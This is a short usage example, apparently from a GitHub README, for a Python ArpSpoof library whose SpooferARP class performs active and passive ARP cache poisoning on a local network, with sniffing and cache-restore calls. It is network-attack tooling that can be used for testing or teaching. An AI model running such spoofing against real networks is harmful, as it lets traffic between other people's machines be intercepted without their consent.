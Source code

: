  from ArpSpoof import SpooferARP

spoofer = SpooferARP('10.110.0.1', '10.110.255.255')
spoofer.active_cache_poisonning()

spoofer = SpooferARP('10.110.0.1', '10.110.255.255', conf.iface, False, 0.5)
spoofer.passive_cache_poisonning(asynchronous=True)
spoofer.run = False
spoofer.sniffer.stop()                                   # only with asynchronous mode
spoofer.restore()                                        # only with asynchronous mode
